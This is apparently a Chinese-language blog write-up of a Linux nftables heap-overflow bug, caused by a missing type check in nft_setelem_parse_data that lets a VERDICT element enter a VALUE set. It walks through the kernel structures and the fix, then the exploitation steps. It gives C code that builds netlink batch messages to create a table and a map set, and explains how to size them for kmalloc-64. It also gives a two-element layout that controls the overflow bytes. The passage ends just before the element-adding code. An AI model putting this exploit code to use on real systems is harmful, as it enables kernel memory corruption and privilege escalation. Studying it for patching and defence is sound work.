每个 set 的扩展属性存储在 nft_set_elem 的 priv 字段指向的内存块中。这个内存块中同时还要存储 elem ，结构大致如下

对 nft_set_ext 的 len 字段的更新是通过 nft_set_ext_add_length 实现的
static inline void nft_set_ext_add_length(struct nft_set_ext_tmpl *tmpl, u8 id, unsigned int len) { tmpl->len = ALIGN(tmpl->len, nft_set_ext_types[id].align); BUG_ON(tmpl->len > U8_MAX); tmpl->offset[id] = tmpl->len; tmpl->len += nft_set_ext_types[id].len + len; }
3.4. nft_set
在内核中表示一个 set 数据结构的结构体
struct nft_set { struct list_head list; struct list_head bindings; struct nft_table *table; possible_net_t net; char *name; u64 handle; u32 ktype; u32 dtype; u32 objtype; u32 size; u8 field_len[NFT_REG32_COUNT]; u8 field_count; u32 use; atomic_t nelems; u32 ndeact; u64 timeout; u32 gc_int; u16 policy; u16 udlen; unsigned char *udata; /* runtime data below here */ const struct nft_set_ops *ops ____cacheline_aligned; u16 flags:14, genmask:2; u8 klen; u8 dlen; u8 num_exprs; struct nft_expr *exprs[NFT_SET_EXPR_MAX]; unsigned char data[] __attribute__((aligned(__alignof__(u64)))); };
注释中解释了每个元素的作用：
/** * struct nft_set - nf_tables set instance * * @list: table set list node * @bindings: list of set bindings * @table: table this set belongs to * @net: netnamespace this set belongs to * @name: name of the set * @handle: unique handle of the set * @ktype: key type (numeric type defined by userspace, not used in the kernel) * @dtype: data type (verdict or numeric type defined by userspace) * @objtype: object type (see NFT_OBJECT_* definitions) * @size: maximum set size * @field_len: length of each field in concatenation, bytes * @field_count: number of concatenated fields in element * @use: number of rules references to this set * @nelems: number of elements * @ndeact: number of deactivated elements queued for removal * @timeout: default timeout value in jiffies * @gc_int: garbage collection interval in msecs * @policy: set parameterization (see enum nft_set_policies) * @udlen: user data length * @udata: user data * @expr: stateful expression * @ops: set ops * @flags: set flags * @genmask: generation mask * @klen: key length * @dlen: data length * @data: private set data */
4. 漏洞分析
漏洞出现在 nftables 的 NFT_MSG_NEWSETELEM 方法中，这是对 nftables 的内建 set 数据结构的操作，具体可见 wiki 。这个 set 类似于是一个键-元素集合对，这个元素集合里面可以存储各种类型的数据，高度灵活。比如 wiki 里面的例子：
nft add set ip filter blackhole { type ipv4_addr\; comment \"drop all packets from these hosts\" \; }
如上就可以创建一个 named set ，规定了每个元素的类型。然后通过
nft add element ip filter blackhole { 192.168.3.4 }
就可以向 set 中添加元素。在使用 rule 的时候也可以引用它
nft add rule ip filter input ip saddr @blackhole drop
有了上面对 nftables 中结构体的介绍，理解这个漏洞应该并不难。首先要知道的是，nftables 中的 set ，虽然可以存储各种各样不同类型的元素集合，但是集合内的元素类型都一定相同。为了便于理解，可以不严谨得认为这是一个 C++ 中的 vector 这样的数据类型，即泛型，可变长的数组。如果在实现时出现了疏漏，导致一个 set 可以被存储不同类型（或者说不同大小）的数据，就可能会导致越界。
然而在 nft_setelem_parse_data 中就存在对类型判断的疏忽
static int nft_setelem_parse_data(struct nft_ctx *ctx, struct nft_set *set, struct nft_data_desc *desc, struct nft_data *data, struct nlattr *attr) { int err; err = nft_data_init(ctx, data, NFT_DATA_VALUE_MAXLEN, desc, attr); if (err < 0) return err; if (desc->type != NFT_DATA_VERDICT && desc->len != set->dlen) { nft_data_release(data, desc->type); return -EINVAL; } return 0; }
这里会先通过之前说过 nft_data_init 初始化 data 和 desc 。完成初始化之后使用 desc 做合法性检查， set->dlen 保存的是这个 set 中每个元素的大小，检查的本意是如果传入的数据是 VALUE 类型的话就检查一下传入的数据大小是否和 set->dlen 相等，如果不等就代表传入的数据类型和 set 的类型不同，这个是合理的。但是他却忘了存在传入的是 VERDICT 类型，而 set 存储的是 VALUE 类型的这种情况。如果是这样的话，这个检查就无效了，我们就可以把一个 VERDICT 存到一个 VALUE set 里面了。
所以 patch 就是加上这部分的类型检查
diff --git a/net/netfilter/nf_tables_api.c b/net/netfilter/nf_tables_api.c index 51144fc66889b5..d6b59beab3a986 100644 --- a/net/netfilter/nf_tables_api.c +++ b/net/netfilter/nf_tables_api.c @@ -5213,13 +5213,20 @@ static int nft_setelem_parse_data(struct nft_ctx *ctx, struct nft_set *set, struct nft_data *data, struct nlattr *attr) { + u32 dtype; int err; err = nft_data_init(ctx, data, NFT_DATA_VALUE_MAXLEN, desc, attr); if (err < 0) return err; - if (desc->type != NFT_DATA_VERDICT && desc->len != set->dlen) { + if (set->dtype == NFT_DATA_VERDICT) + dtype = NFT_DATA_VERDICT; + else + dtype = NFT_DATA_VALUE; + + if (dtype != desc->type || + set->dlen != desc->len) { nft_data_release(data, desc->type); return -EINVAL; }
根据 nftables 对 set 的实现，这个问题会造成一个堆溢出。过程如下：
- 在
nft_setelem_parse_data中，如果允许添加这个被 parse 的 data，就会传回一个对要被添加的数据的desc，该结构体的len字段保存了该元素的大小 nft_set_ext_add_length会使用传回的 desc 的len字段来更新nft_set_ext_tmpl tmpl结构体在
nft_add_set_elem函数处理完传入的nlattr（属性流）后，nft_set_ext_tmpl tmpl也就被更新完毕了，nft_set_elem_init会根据这个结构体创建并初始化一个nft_set_elem的 private data 部分void *nft_set_elem_init(const struct nft_set *set, const struct nft_set_ext_tmpl *tmpl, const u32 *key, const u32 *key_end, const u32 *data, u64 timeout, u64 expiration, gfp_t gfp) { struct nft_set_ext *ext; void *elem; elem = kzalloc(set->ops->elemsize + tmpl->len, gfp); if (elem == NULL) return NULL; ext = nft_set_elem_ext(set, elem); nft_set_ext_init(ext, tmpl); memcpy(nft_set_ext_key(ext), key, set->klen); if (nft_set_ext_exists(ext, NFT_SET_EXT_KEY_END)) memcpy(nft_set_ext_key_end(ext), key_end, set->klen); if (nft_set_ext_exists(ext, NFT_SET_EXT_DATA)) memcpy(nft_set_ext_data(ext), data, set->dlen); if (nft_set_ext_exists(ext, NFT_SET_EXT_EXPIRATION)) { *nft_set_ext_expiration(ext) = get_jiffies_64() + expiration; if (expiration == 0) *nft_set_ext_expiration(ext) += timeout; } if (nft_set_ext_exists(ext, NFT_SET_EXT_TIMEOUT)) *nft_set_ext_timeout(ext) = timeout; return elem; }
private data 使用
kzalloc分配，将使用GFP_KERNELflag ，同时其 size 是由nft_set_ext_tmpl tmpl这个变量共同决定的。 这里注意，在拷贝NFT_SET_EXT_DATA属性时，是这么做的if (nft_set_ext_exists(ext, NFT_SET_EXT_DATA)) memcpy(nft_set_ext_data(ext), data, set->dlen);
使用的是
set->dlen字段，这个也合理，毕竟一个 set 中的每个元素大小都是已知的。但是由于漏洞的存在，我们可以让一个 VERDICT 类型的元素进入 set 中，VERDICT 元素的 len 将会是// in nft_verdict_init desc->len = sizeof(data->verdict); desc->type = NFT_DATA_VERDICT;
长度为 16 。而 set 的元素类型可以为任何类型，大小最大允许到 64byte ，即我们可以实现
set->dlen = 64&&desc->len = 16，这样在 memcpy 是就可以实现最大 64 - 16 = 48 字节的堆溢出了。
总结一下：set 中可以存储多个元素，但是每个元素类型必须相同。漏洞出现在 nft_setelem_parse_data 中，这里对元素的类型出现了疏漏：
如果 desc->type 是 NFT_DATA_VERDICT 类型，且 set 中原来存储的是 NFT_DATA_VALUE 类型，那么这里由于 desc->type != NFT_DATA_VERDICT 不成立，所以检查直接通过，就会把一个 NFT_DATA_VERDICT 类型的元素添加到 NFT_DATA_VALUE 中。当 NFT_DATA_VERDICT 类型的元素大小小于 NFT_DATA_VALUE 时，当前的实现会导致堆溢出。
5. 漏洞利用
5.1. 调试方法
5.1.1. VMware Remote Debugging Stub
刚开始时我想使用 VMware 进行调试，这样我可以装个 nft ，不过由于我使用 wsl2 必须开启 hyper-v ，而 VMware 当前（VMware 16）对 hyper-V 的调试支持并不稳定——下断点就 crash 。所以我并不配用，但是既然我研究过了如何使用 vmware 进行 debug ，这里还是记录一下（至少 gdb 还是可以 attach 上去的）
在 VMware 虚拟机的 *.vmx 文件中添加
debugStub.listen.guest64 = "TRUE" debugStub.listen.guest64.remote = "TRUE"
然后就可以 gdb attach 到 8864 端口上了。如果要调试的是 32 位虚拟机，那么就是把 guest64 替换成 guest32 ，端口会变成 8832 。由于我需要使用 wsl 中的 gdb 进行调试，所以才需要 .remote 的那一行来允许远程调试。调试时指定 host 机的 ip 地址即可 attach ，这里要注意，虽然 wsl 和 windows 之间会互相端口转发，VMware 却并不会（搞不懂 wsl 的这个网络规则），所以还是要 ifconfig 找一下。由于 wsl 是处于一个 host 创建的隔离的 LAN 中的，所以 host ip 和他的网关的 ip 地址相同
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST> mtu 1500
inet 172.18.81.154 netmask 255.255.240.0 broadcast 172.18.95.255
比如说我 ifconfig 出来结果是这样的，那么网关就是 172.18.80.1 了。所以使用 target remote 172.18.80.1:8864 。
5.1.2. qemu-kvm
在 wsl 里面使用 qemu-kvm 只能说能用，但是性能损失许多，所以我也放弃了。
5.1.3. debootstrap
我想要的只是拥有一个正常一点的 rootfs ——有个 nft 就行。另一方面，使用过去一直使用的 buzybox rootfs 时，我发现我无法向 netlink 发包，会返回 errno 11 ，不知道是什么原因。所以我就找到了 debootstrap 这个伟大的工具。不过我不选择直接使用他来生成 rootfs ，而是使用 syzkaller 提供的工具来生成，摘录原文：
mkdir $IMAGE cd $IMAGE/ wget https://raw.githubusercontent.com/google/syzkaller/master/tools/create-image.sh -O create-image.sh chmod +x create-image.sh ./create-image.sh # The result should be $IMAGE/stretch.img disk image.
不过这样生成的是一个 ext4 格式的磁盘镜像，所以启动 qemu 的时候也要修改相应参数，即在 -append 字符串中添加 "root=/dev/sda" 一段，然后指定 drive ，以下是一个示例
-append "console=ttyS0 root=/dev/sda" -drive file=./stretch.img,format=raw
5.2. 交互过程
nftables 的交互和一般的内核子系统不同。不再是简单的系统调用或者 xxctl ，而是需要使用 netlink socket 收发信息。这个我并不熟悉，所以这里写的详细一些。我是结合源码的同时抄了这里的代码学习的。
在 netlink 中，我们可以使用 sendmsg 这个函数来发送 batch 请求，所谓的 batch 请求就是 netlink 可以一次接受多个请求然后一并处理（批处理）。我们要做的几个操作， NFT_MSG_NEWTABLE NFT_MSG_NEWSET 和 NFT_MSG_NEWSETELEM 三个方法都是批处理方法（call_batch）。
static const struct nfnl_callback nf_tables_cb[NFT_MSG_MAX] = { [NFT_MSG_NEWTABLE] = { .call_batch = nf_tables_newtable, .attr_count = NFTA_TABLE_MAX, .policy = nft_table_policy, }, [NFT_MSG_NEWSET] = { .call_batch = nf_tables_newset, .attr_count = NFTA_SET_MAX, .policy = nft_set_policy, }, // ... [NFT_MSG_NEWSETELEM] = { .call_batch = nf_tables_newsetelem, .attr_count = NFTA_SET_ELEM_LIST_MAX, .policy = nft_set_elem_list_policy, }, // ... }
使用该函数需要构造一个 msghdr 结构体来存储数据，然后把要发送的数据存储在 iovec 中。其中第一个元素放 NFNL_MSG_BATCH_BEGIN 消息，用以通知批处理开始，最后一个放 NFNL_MSG_BATCH_END 消息，用以通知结束。中间就可以加上一些批处理请求了。结构体定义如下
/* Structure describing messages sent by `sendmsg' and received by `recvmsg'. */ struct msghdr { void *msg_name; /* Address to send to/receive from. */ socklen_t msg_namelen; /* Length of address data. */ struct iovec *msg_iov; /* Vector of data to send/receive into. */ size_t msg_iovlen; /* Number of elements in the vector. */ void *msg_control; /* Ancillary data (eg BSD filedesc passing). */ size_t msg_controllen; /* Ancillary data buffer length. !! The type should be socklen_t but the definition of the kernel is incompatible with this. */ int msg_flags; /* Flags on received message. */ };
msg_name：指定发送的目标地址 我们的 socket 是 netlink ，目标地址存储在sockaddr_nl中即可，需要设置其nl_family字段为AF_NETLINK，其余设为 0struct sockaddr_nl dest_nl; memset(&dest_nl, 0, sizeof(dest_nl)); dest_nl.nl_family = AF_NETLINK;
msg_namelen：指定msg_name长度，设置为sizeof(struct sockaddr_nl)msg_iov：就是上面说的 iovec
其余字段留空。
iovec 中存储的就是 netlink msg ，可以用于操作 netfilter 子系统，这种消息的消息头用 nlmsghdr 来表示。
struct nlmsghdr { __u32 nlmsg_len; /* Length of message including header */ __u16 nlmsg_type; /* Message content */ __u16 nlmsg_flags; /* Additional flags */ __u32 nlmsg_seq; /* Sequence number */ __u32 nlmsg_pid; /* Sending process port ID */ };
这个头中我们主要要设置的是 nlmsg_len 和 nlmsg_type
nlmsg_len描述了整个消息的长度，这个长度其实就是数据 + nlmsghdr 头，然后算上对齐的长度。我们使用NLMSG_SPACE宏即可把数据长度转成nlmsg_lennlmsg_type如果之前看 用户态向内核请求流程 这里有注意到的话，就会知道subsys_id和res_id是一起存储在这个字段里的。高 16 位为subsys_id，低 16 位为res_id。
然后在 nlmsghdr 后面，还需要存储一个 nfgenmsg 结构
/* General form of address family dependent message. */ struct nfgenmsg { __u8 nfgen_family; /* AF_xxx */ __u8 version; /* nfnetlink version */ __be16 res_id; /* resource id */ };
然后紧接着 nfgenmsg ，存储 nlattr ，之前详细分析过，这是用来存储请求的数据的。我们先来看怎么构建 NFNL_MSG_BATCH_BEGIN 和 NFNL_MSG_BATCH_END 消息，对于这两种消息，不需要 nlattr
struct nlmsghdr *make_bacth_begin_nlmsghdr() { struct nlmsghdr *nlh = (struct nlmsghdr *)malloc(NLMSG_SPACE(sizeof(struct nfgenmsg))); struct nfgenmsg *nfgm = NLMSG_DATA(nlh); memset(nlh, 0, NLMSG_SPACE(sizeof(struct nfgenmsg))); nlh->nlmsg_flags = 0; nlh->nlmsg_seq = 0; nlh->nlmsg_len = NLMSG_SPACE(sizeof(struct nfgenmsg)); nlh->nlmsg_pid = getpid(); nlh->nlmsg_type = NFNL_MSG_BATCH_BEGIN; nfgm->res_id = NFNL_SUBSYS_NFTABLES; return nlh; }
struct nlmsghdr *make_bacth_end_nlmsghdr() { struct nlmsghdr *nlh = (struct nlmsghdr *)malloc(NLMSG_SPACE(sizeof(struct nfgenmsg))); memset(nlh, 0, NLMSG_SPACE(sizeof(struct nfgenmsg))); nlh->nlmsg_flags = NLM_F_REQUEST; nlh->nlmsg_seq = 0; nlh->nlmsg_len = NLMSG_SPACE(sizeof(struct nfgenmsg)); nlh->nlmsg_pid = getpid(); nlh->nlmsg_type = NFNL_MSG_BATCH_END; return nlh; }
只要设置好每个字段即可。需要注意的是对于 NFNL_MSG_BATCH_BEGIN 请求，需要设置其 res_id 字段，在 nfnetlink_rcv_skb_batch 会用到
// in nfnetlink_rcv_skb_batch /* Work around old nft using host byte order */ if (nfgenmsg->res_id == NFNL_SUBSYS_NFTABLES) res_id = NFNL_SUBSYS_NFTABLES; else res_id = ntohs(nfgenmsg->res_id);
不然就无效了。
然后我们再来看如何设置 nlattr ，先抄几个 helper
// Netlink attributes #define U32_NLA_SIZE (sizeof(struct nlattr) + sizeof(uint32_t)) #define U64_NLA_SIZE (sizeof(struct nlattr) + sizeof(uint64_t)) #define S8_NLA_SIZE (sizeof(struct nlattr) + 8) /** * set_nested_attr(): Prepare a nested netlink attribute * @attr: Attribute to fill * @type: Type of the nested attribute * @data_len: Length of the nested attribute */ struct nlattr *set_nested_attr(struct nlattr *attr, uint16_t type, uint16_t data_len) { attr->nla_type = type; attr->nla_len = NLA_ALIGN(data_len + sizeof(struct nlattr)); return (void *)attr + sizeof(struct nlattr); } /** * set_u32_attr(): Prepare an integer netlink attribute * @attr: Attribute to fill * @type: Type of the attribute * @value: Value of this attribute */ struct nlattr *set_u32_attr(struct nlattr *attr, uint16_t type, uint32_t value) { attr->nla_type = type; attr->nla_len = U32_NLA_SIZE; *(uint32_t *)NLA_ATTR(attr) = htonl(value); return (void *)attr + U32_NLA_SIZE; } /** * set_u64_attr(): Prepare a 64 bits integer netlink attribute * @attr: Attribute to fill * @type: Type of the attribute * @value: Value of this attribute */ struct nlattr *set_u64_attr(struct nlattr *attr, uint16_t type, uint64_t value) { attr->nla_type = type; attr->nla_len = U64_NLA_SIZE; *(uint64_t *)NLA_ATTR(attr) = htobe64(value); return (void *)attr + U64_NLA_SIZE; } /** * set_str8_attr(): Prepare a 8 bytes long string netlink attribute * @attr: Attribute to fill * @type: Type of the attribute * @name: Buffer to copy into the attribute */ struct nlattr *set_str8_attr(struct nlattr *attr, uint16_t type, const char name[8]) { attr->nla_type = type; attr->nla_len = S8_NLA_SIZE; memcpy(NLA_ATTR(attr), name, 8); return (void *)attr + S8_NLA_SIZE; } /** * set_binary_attr(): Prepare a byte array netlink attribute * @attr: Attribute to fill * @type: Type of the attribute * @buffer: Buffer with data to send * @buffer_size: Size of the previous buffer */ struct nlattr *set_binary_attr(struct nlattr *attr, uint16_t type, uint8_t *buffer, uint64_t buffer_size) { attr->nla_type = type; attr->nla_len = NLA_BIN_SIZE(buffer_size); memcpy(NLA_ATTR(attr), buffer, buffer_size); return (void *)attr + NLA_ALIGN(NLA_BIN_SIZE(buffer_size)); }
关于这里的 set_str8_attr 这个函数，要注意的一点是，在内核中，比较 string 类型的属性和字符串时，使用 nla_strcmp
/** * nla_strcmp - Compare a string attribute against a string * @nla: netlink string attribute * @str: another string */ int nla_strcmp(const struct nlattr *nla, const char *str) { int len = strlen(str); char *buf = nla_data(nla); int attrlen = nla_len(nla); int d; if (attrlen > 0 && buf[attrlen - 1] == '\0') attrlen--; d = attrlen - len; if (d == 0) d = memcmp(nla_data(nla), str, len); return d; } EXPORT_SYMBOL(nla_strcmp);
这里在比较前会先比较两个字符串的长度，对于 nla 的长度使用的是 nla_len 而不是 strlen ，所以在使用 set_str8_attr 是，传入的字符串长度最好是 7 或者 8 ，否则之后如果碰到需要 nla_strcmp 操作时，就会直接无法通过。
这些 helper 都是向一个 nlattr 中写入数据，然后返回下一个 nlattr 的地址。在 nlattr 这里有说到，对于传入的 nlattr 是“序列化表示”，所以下一个 nlattr 的地址就是当前 nlattr 的末尾。有了这些 helper 我们来看如何设置一个 create table 的 nlattr 以起到和使用命令行工具 nft
nft add table inet TABLEAAA
一样的效果。
首先我们申请出一个合适的 nlmsg 大小
#define TABLEMSG_SIZE NLMSG_SPACE(sizeof(struct nfgenmsg) + S8_NLA_SIZE) struct nlmsghdr *nlh_payload = (struct nlmsghdr *)malloc(TABLEMSG_SIZE);
对于创建 table ，我们只要在 nlattr 中指定 table 的名字即可，所以大小就是 NLMSG_SPACE(sizeof(struct nfgenmsg) + S8_NLA_SIZE) 。然后设置该 header 的各个字段
memset(nlh_payload, 0, sizeof(*nlh_payload)); nlh_payload->nlmsg_flags = NLM_F_REQUEST; nlh_payload->nlmsg_len = TABLEMSG_SIZE; nlh_payload->nlmsg_pid = getpid(); nlh_payload->nlmsg_seq = 0; nlh_payload->nlmsg_type = (NFNL_SUBSYS_NFTABLES << 8) | NFT_MSG_NEWTABLE;
这里主要要注意的就是要设置 nlmsg_type 中的低 16 位，用以表示这是一个 NFT_MSG_NEWTABLE 操作。然后要在 nlmsg_flags 中设置 NLM_F_REQUEST ，内核的代码中会检查这个标志位。
同样的我们也要设置其 nfgenmsg
struct nfgenmsg *nfgm = NLMSG_DATA(nlh_payload); nfgm->nfgen_family = NFPROTO_INET;
只是为了利用的话这里的 family 其实可以随便设置，只要和之后 create set 的时候一致即可。这个 NFPROTO_INET 就对应
nft add table inet TABLEAAA
中的 inet 。
然后我们设置 nlattr
nla = (void *)nlh_payload + NLMSG_SPACE(sizeof(struct nfgenmsg)); set_str8_attr(nla, "TABLEAAA", name);
有了 helper ，这个还是比较简单的。
完整的创建 table 的函数如下
void create_nft_table(int nlsock, const char *name) { struct sockaddr_nl dest_nl; struct msghdr msg; struct nlmsghdr *nlh_batch_begin; struct nlmsghdr *nlh_payload; struct nlmsghdr *nlh_batch_end; struct nfgenmsg *nfgm; struct nlattr *nla; struct iovec iov[3]; memset(&dest_nl, 0, sizeof(dest_nl)); dest_nl.nl_family = AF_NETLINK; memset(&msg, 0, sizeof(msg)); nlh_batch_begin = make_bacth_begin_nlmsghdr(); // create a table message nlh_payload = (struct nlmsghdr *)malloc(TABLEMSG_SIZE); if (nlh_payload == NULL) { fprintf(stderr, "[-] malloc\n"); exit(1); } memset(nlh_payload, 0, sizeof(*nlh_payload)); nlh_payload->nlmsg_flags = NLM_F_REQUEST; nlh_payload->nlmsg_len = TABLEMSG_SIZE; nlh_payload->nlmsg_pid = getpid(); nlh_payload->nlmsg_seq = 0; nlh_payload->nlmsg_type = (NFNL_SUBSYS_NFTABLES << 8) | NFT_MSG_NEWTABLE; nfgm = NLMSG_DATA(nlh_payload); nfgm->nfgen_family = NFPROTO_INET; nla = (void *)nlh_payload + NLMSG_SPACE(sizeof(struct nfgenmsg)); set_str8_attr(nla, NFTA_TABLE_NAME, name); nlh_batch_end = make_bacth_end_nlmsghdr(); // put theme into iovec memset(iov, 0, sizeof(iov)); iov[0].iov_base = nlh_batch_begin; iov[0].iov_len = nlh_batch_begin->nlmsg_len; iov[1].iov_base = nlh_payload; iov[1].iov_len = nlh_payload->nlmsg_len; iov[2].iov_base = nlh_batch_end; iov[2].iov_len = nlh_batch_end->nlmsg_len; msg.msg_name = &dest_nl; msg.msg_namelen = sizeof(dest_nl); msg.msg_iov = iov; msg.msg_iovlen = 3; int nbytes; if ((nbytes = sendmsg(nlsock, &msg, 0)) <= 0) { perror("[-] sendmsg(create table)"); close(nlsock); exit(1); } printf("[!] %d bytes sent\n", nbytes); perror(" sendmsg"); free(nlh_batch_begin); free(nlh_payload); free(nlh_batch_end); }
5.3. cache 选择
elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);
溢出的堆块如上被分配，gfp 是传入的参数，为 GFP_KERNEL ， tmpl->len 由我们控制， set->ops->elemsize 不可控，但是并不大，最后我们可以申请到的将是 kmalloc-{64,96,128,192}
首先，我们选择构造 NFT_SET_MAP 类型的 set （似乎在使用 nft 时，他被叫成 map 了 wiki map），创建这个类型是因为需要填充一些数据凑到能够溢出。为了创建一个 set 我们需要为一个 NFT_MSG_GETSET 构造多个 nlattr
nla = set_str8_attr(nla, NFTA_SET_TABLE, table_name); // table the set belong nla = set_str8_attr(nla, NFTA_SET_NAME, set_name); // set name nla = set_u32_attr(nla, NFTA_SET_ID, id); // id of the table (seems can be random..) nla = set_u32_attr(nla, NFTA_SET_KEY_LEN, key_len); // key len (as this is a map set) nla = set_u32_attr(nla, NFTA_SET_DATA_LEN, set_data_len); // data len nla = set_u32_attr(nla, NFTA_SET_DATA_TYPE, 0); // data type (we don't care) nla = set_u32_attr(nla, NFTA_SET_FLAGS, NFT_SET_MAP); // set type
每项的意义都在注释里写明了，比较重要的是 KEY_LEN 和 DATA_LEN 两个字段，分别决定了我们能不能占位到 kmalloc-64 上和能不能有效的实现堆溢出，在通过 nf_tables_newset 函数新建 set 时，他们会设置 set 的 klen 和 dlen 两个字段
set->klen = desc.klen; set->dlen = desc.dlen;
而两者又会一起更新漏洞函数 nft_set_elem_init 使用的 struct nft_set_ext_tmpl tmpl 的 len 字段用以申请内存。
nft_set_ext_add_length(&tmpl, NFT_SET_EXT_KEY, set->klen); nft_set_ext_add_length(&tmpl, NFT_SET_EXT_DATA, desc.len);
不过未来我们添加元素时不会带上别的 nlattr ，所以 tmpl->len 也不会被别的属性更新。
然后 tmpl 会被 nft_set_ext_prepare 初始化
static inline void nft_set_ext_prepare(struct nft_set_ext_tmpl *tmpl) { memset(tmpl, 0, sizeof(*tmpl)); tmpl->len = sizeof(struct nft_set_ext); }
len 会被初始化为 10 。
kzalloc 时如下：
elem = kzalloc(set->ops->elemsize + tmpl->len, gfp);
elemsize 由 ops 决定，由于我们申请的是 NFT_SET_MAP ，所以 ops 会是 nft_set_rhash_type ，其 elemsize 为 8
所以如果我们想要申请到 kmalloc-64 ，只要满足 key_len + data_len = 64 - 8 - 12 即可（这里减去 12 而不是 sizeof(nft_set_ext) 的 10 的原因是在 nft_set_ext_add_length 中会把 len 对齐）。
考虑到在溢出时，我们使用一个 VERDICT 类型来混淆 VALUE 类型，所以届时 desc.len 将会是 sizeof(struct nft_verdict) = 16 。由此我们可以得出 key_len 须为 64 - 8 - 12 - 16 。对于创建 set 时的 data_len ，我们只要让他大于 16 就可以实现溢出，想要溢出多少字节就比 16 大多少就行了
如下为完整的创建 set 的代码
void create_nft_set(int nlsock, const char *set_name, uint32_t set_key_len, uint32_t set_data_len, const char *table_name, uint32_t id) { struct msghdr msg; struct sockaddr_nl dest_nl; struct nlmsghdr *nlh_batch_begin; struct nlmsghdr *nlh_payload; struct nlmsghdr *nlh_batch_end; struct nfgenmsg *nfgm; struct nlattr *nla; struct iovec iov[3]; memset(&dest_nl, 0, sizeof(dest_nl)); dest_nl.nl_family = AF_NETLINK; memset(&msg, 0, sizeof(msg)); nlh_batch_begin = make_bacth_begin_nlmsghdr(); nlh_batch_end = make_bacth_end_nlmsghdr(); size_t nlh_payload_size = sizeof(struct nfgenmsg); nlh_payload_size += S8_NLA_SIZE * 2; // NFTA_SET_TABLE && NFTA_SET_NAME nlh_payload_size += U32_NLA_SIZE * 5; // NFTA_SET_[ID|KEY_LEN|FLAGS|DATA_TYPE|DATA_LEN] nlh_payload_size = NLMSG_SPACE(nlh_payload_size); nlh_payload = (struct nlmsghdr *)malloc(nlh_payload_size); memset(nlh_payload, 0, nlh_payload_size); nlh_payload->nlmsg_flags = NLM_F_REQUEST | NLM_F_CREATE; nlh_payload->nlmsg_len = nlh_payload_size; nlh_payload->nlmsg_pid = getpid(); nlh_payload->nlmsg_seq = 0; nlh_payload->nlmsg_type = (NFNL_SUBSYS_NFTABLES << 8) | NFT_MSG_NEWSET; nfgm = (struct nfgenmsg *)NLMSG_DATA(nlh_payload); nfgm->nfgen_family = NFPROTO_INET; nla = (void *)nlh_payload + NLMSG_SPACE(sizeof(struct nfgenmsg)); nla = set_str8_attr(nla, NFTA_SET_TABLE, table_name); nla = set_str8_attr(nla, NFTA_SET_NAME, set_name); nla = set_u32_attr(nla, NFTA_SET_ID, id); nla = set_u32_attr(nla, NFTA_SET_KEY_LEN, set_key_len); nla = set_u32_attr(nla, NFTA_SET_DATA_LEN, set_data_len); nla = set_u32_attr(nla, NFTA_SET_DATA_TYPE, 0); nla = set_u32_attr(nla, NFTA_SET_FLAGS, NFT_SET_MAP); memset(iov, 0, sizeof(iov)); iov[0].iov_base = nlh_batch_begin; iov[0].iov_len = nlh_batch_begin->nlmsg_len; iov[1].iov_base = nlh_payload; iov[1].iov_len = nlh_payload->nlmsg_len; iov[2].iov_base = nlh_batch_end; iov[2].iov_len = nlh_batch_end->nlmsg_len; msg.msg_name = &dest_nl; msg.msg_namelen = sizeof(dest_nl); msg.msg_iov = iov; msg.msg_iovlen = 3; int nbytes; if ((nbytes = sendmsg(nlsock, &msg, 0)) <= 0) { perror("[-] sendmsg(create set)"); close(nlsock); exit(1); } printf("[!] %d bytes sent\n", nbytes); perror(" sendmsg"); free(nlh_batch_begin); free(nlh_payload); free(nlh_batch_end); return; }
5.4. 控制堆溢出数据
if (nft_set_ext_exists(ext, NFT_SET_EXT_DATA)) memcpy(nft_set_ext_data(ext), data, set->dlen);
溢出的数据源是 data 指针指向的，定义在 nft_add_set_elem 栈上的 struct nft_set_elem elem; 变量的 elem.data.val.data 字段
/** * struct nft_set_elem - generic representation of set elements * * @key: element key * @key_end: closing element key * @priv: element private data and extensions */ struct nft_set_elem { union { u32 buf[NFT_DATA_VALUE_MAXLEN / sizeof(u32)]; struct nft_data val; } key; union { u32 buf[NFT_DATA_VALUE_MAXLEN / sizeof(u32)]; struct nft_data val; } key_end; union { u32 buf[NFT_DATA_VALUE_MAXLEN / sizeof(u32)]; struct nft_data val; } data; void *priv; }; struct nft_data { union { u32 data[4]; struct nft_verdict verdict; }; } __attribute__((aligned(__alignof__(u64))));
这里有许多 union 套来套去，不过结构其实并不复杂

我们能溢出的就是上图中那 unused 的 48 byte 。也就是 data 这个 union 中 buf 比 val 多出来的 48 byte 。这是随机的未初始化数据，但是没有那么随机——至少没有越界。如果我们看一下调用 nft_add_set_elem 的 nf_tables_newsetelem 函数，可以发现这个函数是循环调用的：
nla_for_each_nested(attr, nla[NFTA_SET_ELEM_LIST_ELEMENTS], rem) { err = nft_add_set_elem(&ctx, set, attr, nlh->nlmsg_flags); if (err < 0) return err; }
很好理解，就是对于用户传入的每个元素都调用一次 nft_add_set_elem 加入到 set 中。那么我们可以让溢出的这次 nft_add_set_elem 紧接上一次 nft_add_set_elem ，这样第二次调用时 elem 的数据还会是第一次调用时的数据，就可以让 unused 部分的数据保留为上一次传入的数据了，由此便可控制溢出的数据。

为了实现这个效果，我们需要在一次 NFT_MSG_NEWSETELEM 中创建两个 nlattr 来添加两次元素，第一次写入数据，第二次触发溢出，即须如下构造
/*** First element ***/ attr = set_nested_attr(attr, 0, first_element_size - 4); attr = set_nested_attr(attr, NFTA_SET_ELEM_KEY, NLA_BIN_SIZE(set_keylen)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)zerobuf, set_keylen); attr = set_nested_attr(attr, NFTA_SET_ELEM_DATA, NLA_BIN_SIZE(data_len)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)data, data_len); /*** Second element ***/ attr = set_nested_attr(attr, 0, second_element_size - 4); attr = set_nested_attr(attr, NFTA_SET_ELEM_KEY, NLA_BIN_SIZE(set_keylen)); attr = set_binary_attr(attr, NFTA_DATA_VALUE, (uint8_t *)zerobuf, set_keylen); attr = set_nested_attr(attr, NFTA_SET_ELEM_DATA, U32_NLA_SIZE + sizeof(struct nlattr)); attr = set_nested_attr(attr, NFTA_DATA_VERDICT, U32_NLA_SIZE); set_u32_attr(attr, NFTA_VERDICT_CODE, NFT_CONTINUE);
完整的添加元素的代码如下：
